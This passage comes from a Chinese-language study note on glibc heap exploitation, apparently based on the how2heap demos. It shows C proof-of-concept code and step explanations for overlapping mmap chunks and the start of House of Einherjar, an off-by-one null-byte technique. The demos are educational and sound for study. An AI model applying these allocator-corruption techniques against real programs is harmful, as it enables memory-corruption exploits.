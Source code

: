 ```c
    */

    // 3
    // Gets the distance between the two pointers.
    long long* overlapping_chunk = malloc(0x300000);

    // 4
    int distance = mmap_chunk_2 - overlapping_chunk;
    printf("Distance between new chunk and the second mmap chunk (which was munmapped): 0x%x\n", distance);
    printf("Value of index 0 of mmap chunk 2 prior to write: %llx\n", mmap_chunk_2[0]);

    // Set the value of the overlapped chunk.
    printf("Setting the value of the overlapped chunk\n");
    overlapping_chunk[distance] = 0x1122334455667788;

    assert(mmap_chunk_2[0] == overlapping_chunk[distance]);
}

```

1. 分配了三块0x100000大小的内存，这些都是通过mmap分配的，所以不在heap的区域。第一块位于libc上方，而第二块位于libc下方，第三块位于第二块的下方。
2. 更改chunk3的size字段，改成了size(chunk3+chunk2)，大小为0x202002，然后释放chunk3。此时由于从chunk3 + 0x202000的区域已经返回给kernel，所以一旦操作读写chunk2就会造成崩溃
3. 新分配一块内存，大小需要超过刚才被释放的大小0x202000，因为在前一步释放的过程中，mmapthreshold被更新成了0x202000。此时这块新分配的内存，覆盖掉了之前munmap的内存。
4. 获取chunk2和overlappingChunk之间的距离，最后通过改写overlappingchunk的数据来改写chunk2的数据，完成攻击

参考：[munmap madness](http://tukan.farm/2016/07/27/munmap-madness/)

## house_of_einherjar

这里是利用off-by-one来改写chunk的pre_inuse字段，并通过改写prev size和size字段来绕过检查，最终导致free时将块合并到目标地址，并通过下一次的malloc来获取目标地址内存。

```c
/*
   Credit to st4g3r for publishing this technique
   The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc()
   This technique may result in a more powerful primitive than the Poison Null Byte, but it has the additional requirement of a heap leak. 
*/

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // 1
    printf("Welcome to House of Einherjar!\n");
    printf("Tested in Ubuntu 16.04 64bit.\n");
    printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

    uint8_t* a;
    uint8_t* b;
    uint8_t* d;

    printf("\nWe allocate 0x38 bytes for 'a'\n");
    a = (uint8_t*) malloc(0x38);
    printf("a: %p\n", a);

    int real_a_size = malloc_usable_size(a);
```